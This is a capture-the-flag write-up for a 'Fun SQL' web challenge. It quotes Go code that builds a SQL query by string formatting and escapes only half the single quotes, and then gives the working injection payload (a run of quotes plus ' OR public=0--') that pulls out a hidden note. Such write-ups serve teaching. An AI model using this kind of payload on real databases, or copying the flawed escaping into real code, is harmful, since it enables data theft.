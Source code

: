 # Fun SQL

The flag is in the database. Can you get it?

http://ctf.wackattack.eu:5020

[⬇️ fun_sql_handout.zip](./fun_sql_handout.zip)

# Writeup

Looking in `challenge.go` you see the following code for the endpoint:

```go
var textSearch = "%" + r.URL.Query().Get("text") + "%"
textSearch = strings.Replace(textSearch, "'", "''", len(textSearch)/2)
rows, err := db.Query(fmt.Sprintf("SELECT data FROM notes WHERE public = 1 AND data LIKE '%s'", textSearch))
```

There seems to be a hidden `search` function, adding `?text=flag` to the URL allows you to basically inject SQL into the query.

The flag is in the `notes` table as shown in the same file:

```go
db.Exec("insert into notes(data,public) values(?,?)", FLAG, 0)
db.Exec("insert into notes(data,public) values(?,?)", "Hello world", 1)
db.Exec("insert into notes(data,public) values(?,?)", "Day in a life of a CTF player", 1)
db.Exec("insert into notes(data,public) values(?,?)", "Web is the best!", 1)
```

Since our note with the flag is set as `public = 0` we need to find a way to bypass this check. We can do this by injecting a `' OR 1=1 --` into the query. But there is an issue, they do replace single quotes with two single quotes, basically denying us the ability to inject SQL. However, there is a limit that it only replaces `len(searchText)/2` single quotes. 

So crafting this SQL injection:

```sql
'''''''''''''''''''''' OR public=0--

36/2 = 18 replacements

''''''''''''''''''''''''''''''''''''''''' OR public=0--
```

makes the query look like this and color code shows easily that the OR statement injected into the SQL.

```sql
SELECT data FROM notes WHERE public = 1 AND data LIKE '''''''''''''''''''''''''''''''''''''''''' OR public=0--'
```

And flag was revealed!

![alt text](image.png)